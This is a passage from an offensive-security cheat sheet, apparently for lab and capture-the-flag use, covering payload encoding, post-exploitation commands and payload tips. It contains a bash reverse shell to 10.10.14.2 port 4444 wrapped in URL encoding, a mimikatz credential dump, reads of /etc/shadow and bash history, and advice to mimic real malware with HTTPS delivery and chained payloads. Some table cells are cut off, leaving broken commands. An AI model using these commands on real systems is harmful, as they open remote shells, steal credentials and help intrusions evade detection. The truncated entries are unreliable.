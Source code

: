 ***

### VIII. ⚡ Quick Payload Encoding Techniques

| Encoding                         | Example                                                                                                   |
| -------------------------------- | --------------------------------------------------------------------------------------------------------- |
| **Base64 (Linux)**               | \`echo "payload"                                                                                          |
| **PowerShell Base64 (UTF-16LE)** | \`echo "IEX...\`                                                                                          |
| **URL Encoding**                 | `python3 -c "import urllib.parse; print(urllib.parse.quote('bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'))"` |
| **XOR Encoding (Python)**        | `''.join(chr(ord(c)^0x41) for c in data)`                                                                 |

***

### IX. 🧱 Post-Exploitation Utilities (for Lab PrivEsc & Data Collection)

| Type                  | Command                                        |
| --------------------- | ---------------------------------------------- |
| **Credential Dump**   | `mimikatz.exe "sekurlsa::logonpasswords" exit` |
| **Hash Dump (Linux)** | `cat /etc/shadow`                              |
| **System Info**       | `whoami && uname -a && id`                     |
| **Network**           | `ip a && netstat -tuln && arp -a`              |
| **Persistence Check** | \`ps aux                                       |
| **History Harvest**   | `cat ~/.bash_history`                          |

***

### X. 🧠 Payload Integration Tips

* Always base64 or URL-encode payloads for command injection challenges.
* For webshells: test all wrappers — `system()`, `exec()`, `shell_exec()`, `passthru()`.
* Use HTTPS payload delivery in enterprise simulation (mimic real malware).
* Always clean up: `rm /tmp/rev*` after lab testing.
* Chain multi-stage payloads to simulate realistic intrusion flow.

***
